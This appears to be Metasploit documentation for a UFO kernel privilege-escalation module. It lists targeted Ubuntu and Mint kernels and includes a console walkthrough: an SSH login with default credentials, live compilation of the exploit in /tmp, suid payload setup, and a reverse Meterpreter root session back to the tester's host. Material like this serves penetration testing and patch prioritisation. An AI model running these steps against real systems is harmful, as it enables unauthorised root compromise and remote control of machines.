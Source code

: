 ## Vulnerable Application

This module attempts to gain root privileges on Linux systems by abusing UDP Fragmentation Offload (UFO).

This module has been tested successfully on:

  * Ubuntu 14.04.5 4.4.0-31-generic x64 Desktop
  * Ubuntu 16.04 4.8.0-53-generic
  * Linux Mint 18 4.8.0-58-generic
  
There is a large swath of vulnerable kernels believed to be from about 3.13 to 4.11.
Only Ubuntu based kernels were coded into this particular exploit, however other flavors of linux
may also be vulnerable.  The following kernels and systems are coded into the exploit and should work,
but may not be tested.

  * Trusty 14.04 (14.04.5 shipped with 4.4 by default)
    * 4.4.0-21-generic
    * 4.4.0-22-generic
    * 4.4.0-24-generic
    * 4.4.0-28-generic
    * 4.4.0-31-generic
    * 4.4.0-34-generic
    * 4.4.0-36-generic
    * 4.4.0-38-generic
    * 4.4.0-42-generic
    * 4.4.0-45-generic
    * 4.4.0-47-generic
    * 4.4.0-51-generic
    * 4.4.0-53-generic
    * 4.4.0-57-generic
    * 4.4.0-59-generic
    * 4.4.0-62-generic
    * 4.4.0-63-generic
    * 4.4.0-64-generic
    * 4.4.0-66-generic
    * 4.4.0-67-generic
    * 4.4.0-70-generic
    * 4.4.0-71-generic
    * 4.4.0-72-generic
    * 4.4.0-75-generic
    * 4.4.0-78-generic
    * 4.4.0-79-generic
    * 4.4.0-81-generic
    * 4.4.0-83-generic
  * Xenial 16.04 (16.04, and 16.04.1 ship with 4.4 kernels, while 16.04.2 ships with 4.8, and 16.04.3 ships with 4.10)
    * 4.4.0-81-generic
    * 4.4.0-89-generic
    * 4.8.0-34-generic
    * 4.8.0-36-generic
    * 4.8.0-39-generic
    * 4.8.0-41-generic
    * 4.8.0-45-generic
    * 4.8.0-46-generic
    * 4.8.0-49-generic
    * 4.8.0-52-generic
    * 4.8.0-53-generic
    * 4.8.0-54-generic
    * 4.8.0-56-generic
    * 4.8.0-58-generic
    * 4.4.0-81-generic
  * Linux Mint 18 (sarah)
    * 4.4.0-81-generic
    * 4.4.0-89-generic
    * 4.8.0-34-generic
    * 4.8.0-36-generic
    * 4.8.0-39-generic
    * 4.8.0-41-generic
    * 4.8.0-45-generic
    * 4.8.0-46-generic
    * 4.8.0-49-generic
    * 4.8.0-51-generic
    * 4.8.0-52-generic
    * 4.8.0-53-generic
    * 4.8.0-54-generic
    * 4.8.0-56-generic
    * 4.8.0-58-generic

          
### POC Issues

In the original POC exploit, a bash shell is executed with root privileges, however, in testing,
it was determined that the network stack seems to be unresponsive post exploitation to that process
and its children.  To circumvent this issue, this exploit calls a stub bash script to chmod and set
suid/sgid bits on the payload.  Then the original shell can simply execute the payload to escalate.

## Verification Steps

  1. Start msfconsole
  2. Get a shell on a vulnerable box
  3. Do: ```use exploit/linux/local/ufo_privilege_escalation```
  4. Do: ```set session [#]```
  5. Do: ```run```
  6. You should get a root shell.

## Options

  **WritableDir**

  A folder we can write files to.  Defaults to /tmp

  **COMPILE**
  
  If we should live compile on the system, or drop pre-created binaries.  Auto will determine if gcc/libs are installed to compile live on the system.  Defaults to Auto

## Scenarios

### Ubuntu 14.04.5 4.4.0-31-generic x64 Desktop

#### Initial Access

```
resource (ubuntu.rb)> use auxiliary/scanner/ssh/ssh_login
resource (ubuntu.rb)> set rhosts 2.2.2.2
rhosts => 2.2.2.2
resource (ubuntu.rb)> set username ubuntu
username => ubuntu
resource (ubuntu.rb)> set password ubuntu
password => ubuntu
resource (ubuntu.rb)> exploit
[+] 2.2.2.2:22 - Success: 'ubuntu:ubuntu' 'uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lpadmin),124(sambashare) Linux ubuntu-desktop-14 4.4.0-31-generic #50~14.04.1-Ubuntu SMP Wed Jul 13 01:07:32 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux '
[*] Command shell session 1 opened (1.1.1.1:45819 -> 2.2.2.2:22) at 2018-04-03 20:58:32 -0400
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

#### Escalate

In this scenario, gcc is installed so we can live compile on the system.

```
resource (ubuntu.rb)> use exploit/linux/local/ufo_privilege_escalation
resource (ubuntu.rb)> set verbose true
verbose => true
resource (ubuntu.rb)> set session 1
session => 1
resource (ubuntu.rb)> set lhost 1.1.1.1
lhost => 1.1.1.1
resource (ubuntu.rb)> exploit
[!] SESSION may not be compatible with this module.
[*] Started reverse TCP handler on 1.1.1.1:4444 
[+] Kernel 4.4.0-31-generic on "14.04" vulnerable
[*] Checking if smap is installed
[+] smap not present.
[+] gcc is installed
[*] Live compiling exploit on system
[*] Writing files to target
[*] Writing szNEyaWe to /tmp/szNEyaWe.c
[*] Max line length is 65537
[*] Writing 25590 bytes in 2 chunks of 56634 bytes (octal-encoded), using printf
[*] Next chunk is 32498 bytes
[*] Writing ZcwJhBLU to /tmp/ZcwJhBLU
[*] Max line length is 65537
[*] Writing 207 bytes in 1 chunks of 629 bytes (octal-encoded), using printf
[*] Writing cecdokdw.sh to /tmp/cecdokdw.sh
[*] Max line length is 65537
[*] Writing 67 bytes in 1 chunks of 251 bytes (octal-encoded), using printf
[*] Starting execution of priv esc, chowning and setting suid bit for payload.
[*] [.] starting
[*] [.] checking distro and kernel versions
[*] [.] kernel version '4.4.0-31-generic' detected
[*] [~] done, versions looks good
[*] [.] checking SMEP and SMAP
[*] [~] done, looks good
[*] [.] setting up namespace sandbox
[*] [~] done, namespace sandbox set up
[*] [.] KASLR bypass enabled, getting kernel addr
[*] [~] done, kernel text:   ffffffff81000000
[*] [.] commit_creds:        ffffffff8109d760
[*] [.] prepare_kernel_cred: ffffffff8109da40
[*] [.] SMEP bypass enabled, mmapping fake stack
[*] [~] done, fake stack mmapped
[*] [.] executing payload ffffffff8104516a
[*] [~] done, should be root now
[*] [.] checking if we got root
[*] [+] got r00t ^_^
[*] Executing payload
[*] Transmitting intermediate stager...(106 bytes)
[*] Sending stage (857352 bytes) to 2.2.2.2
[*] Sleeping before handling stage...
[*] Meterpreter session 2 opened (1.1.1.1:4444 -> 2.2.2.2:42382) at 2018-04-03 20:58:50 -0400

meterpreter > sysinfo
Computer     : 2.2.2.2
OS           : Ubuntu 14.04 (Linux 4.4.0-31-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > getuid
Server username: uid=1000, gid=1000, euid=0, egid=0
```
